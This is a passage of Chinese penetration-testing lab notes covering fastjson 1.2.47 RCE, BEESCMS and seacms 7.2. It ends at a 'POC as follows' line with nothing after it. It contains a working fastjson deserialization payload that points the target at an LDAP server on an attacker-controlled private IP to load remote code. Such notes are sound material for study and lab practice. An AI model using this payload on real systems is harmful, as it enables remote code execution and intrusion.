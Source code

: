 执行EXP


#### fastjson 1.2.47 RCE

大部分操作如上


访问fastjson页面Burp发包，改为POST请求，使用EXP：

```json
{ "name":{ "@type":"java.lang.Class", "val":"com.sun.rowset.JdbcRowSetImpl" }, "x":{ "@type":"com.sun.rowset.JdbcRowSetImpl", "dataSourceName":"ldap://192.168.198.141:1389/80dbpb", "autoCommit":true } }
```

![fastjson1.2.47RCE](/img/01/01_fastjson1.2.47RCE.png)


#### 例五：BEESCMS


https://xz.aliyun.com/t/11955?time__1311=mqmx0DBG0QD%3Di%3DGkDlOIG7%2By5Sxjo%2BBO2ArD&alichlgref=https%3A%2F%2Fcn.bing.com%2F#toc-3




#### 例题六： seacms 7.2（海洋影视系统）

https://blog.csdn.net/YouthBelief/article/details/121036440

在 `/system/admin_ip.php` 下，通过写入一下内容漏洞存在点ip参数

POC如下
